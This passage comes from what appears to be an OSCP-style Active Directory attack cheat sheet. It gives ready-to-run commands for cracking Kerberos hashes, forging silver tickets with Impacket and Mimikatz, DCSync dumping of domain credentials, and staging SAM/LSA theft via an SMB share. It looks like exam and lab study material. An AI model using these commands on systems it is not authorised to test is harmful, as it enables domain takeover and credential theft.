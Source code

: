 * Crack the Hashes

```bash
hashcat -a 0 -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

## Silver Tickets

* With Impacket scripts

```bash
impacket-lookupsid user:password@$IP
```

```bash
impacket-ticketer -nthash "69596C7AA1E8DAEE17F8E78870E25A5C" -domain-sid "S-1-5-21-2330692793-3312915120-706255856" -domain "breach.vl" -spn "MSSQLSvc/dc.oscp.exam:1433" "administrator"
```

* with Mimikatz

```powershell
privilege::debug
kerberos::golden /domain:OSCP /sid:S-1-5-21-2330692793-3312915120-706255856 /user:administrator /target:dc.oscp.exam /service:mssql /rc4:NTHASH /ptt

```
## DC-Sync

* Via secretsdump

```bash
impacket-secretsdump oscp.exam/admin:@dc.oscp.exam -hashes :nthash
```

* via nxc

```bash
nxc smb $IP -u Administrator -H 'hash' --ntds --user domadmin
```

* via mimi (always run `privilege::debug` before executing anything)

```powershell
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:domadmin
```

```powershell
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv
```

## SAM and LSA 

* If the user is in backup-operators we can do

```bash
impacket-smbserver -smb2support "share" .
```
